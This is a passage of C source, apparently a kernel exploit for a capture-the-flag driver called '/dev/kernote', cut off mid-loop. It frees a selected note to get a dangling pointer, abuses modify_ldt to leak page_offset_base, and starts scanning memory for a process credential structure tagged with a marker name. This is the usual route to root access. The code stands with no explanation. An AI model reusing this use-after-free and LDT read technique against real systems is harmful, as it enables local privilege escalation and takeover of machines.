 ```c
#define _GNU_SOURCE
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<fcntl.h>
#include <asm/ldt.h>         /* Definition of struct user_desc */
#include <sys/syscall.h>     /* Definition of SYS_* constants */
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <pthread.h>
#include<sys/sysinfo.h>
#include<sched.h>
#include<ctype.h>
#include<string.h>
#include <sys/prctl.h>
#include <sys/mman.h>
#define KERN_SELECTNOTE 0x6666
#define KERN_ADDNOTE 0x6667
#define KERN_DELNOTE 0x6668
#define KERN_EDITNOTE 0x6669
#define KERN_SHOWNOTE 0x666a
long long target[1];
long long zero;
struct user_desc u_desc;
int fd;
int flag;
int main()
{
    char *buf=(char *)mmap(NULL, 0x8000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
    prctl(PR_SET_NAME, "0ops0ops0ops");
    int pid=getpid();
    fd=open("/dev/kernote",O_RDONLY);
    u_desc.base_addr=0xff0000;
    u_desc.entry_number=0x8000/8;
    u_desc.limit=0;
    u_desc.seg_32bit=0;
    u_desc.contents=0;
    u_desc.read_exec_only=0;
    u_desc.limit_in_pages=0;
    u_desc.seg_not_present=0;
    u_desc.useable=0;
    u_desc.lm=0;
    ioctl(fd,KERN_ADDNOTE,0);
    ioctl(fd,KERN_SELECTNOTE,0);
    ioctl(fd,KERN_DELNOTE,0);
    int ret=syscall(SYS_modify_ldt, 1, &u_desc,sizeof(u_desc));
    unsigned long long addr=0xffff888000000000uLL;
    while(1){
        ioctl(fd,KERN_EDITNOTE,addr);
        ret=syscall(SYS_modify_ldt, 0, target,8);
        if(ret<0){
            addr+=0x40000000;
            continue;
        }
        printf("page_offset_base: %llx\n",addr);
        break;
    }
    unsigned long long PAGE_OFFSET=addr;
    int pipefd[2]={0};
    unsigned long long cred_addr=0;
    pipe(pipefd);
    while(1){
        addr+=0x8000;
```